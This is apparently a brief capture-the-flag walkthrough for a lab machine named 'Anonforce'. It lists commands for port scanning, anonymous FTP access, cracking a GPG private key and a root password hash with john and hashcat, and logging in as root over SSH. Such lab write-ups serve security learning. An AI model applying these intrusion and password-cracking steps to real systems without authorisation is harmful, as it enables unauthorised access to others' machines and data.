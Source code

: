 ```yaml
---
date: 2024-06-19
author: mrashco
title: Anonforce
tags: ["", ""]
---
```


[YouTube Walkthrough](https://youtu.be/viY-a3B1ItQ)

Enumeration
- rustscan -a $ip, 21:ftp 22:ssh
- ftp $ip, anonymous
- user = m*******
- get user.txt
- cat ~/user.txt
- get /notread/*

Hash
- `gpg2john private.asc > private.hash`
- `john --wordlist=/rockyou.txt private.hash`
- x******
- `gpg` [🔗](https://www.reddit.com/r/GnuPG/comments/mibwbv/i_have_an_elg_private_key_how_do_i_use_it_to/) [🔗](https://en.wikipedia.org/wiki/Pretty_Good_Privacy) 
- `gpg -d backup.pgp`
- nano root.hash
- `hashcat root.hash rockyou.txt`
- h*****

SSH
- `ssh root@$ip`
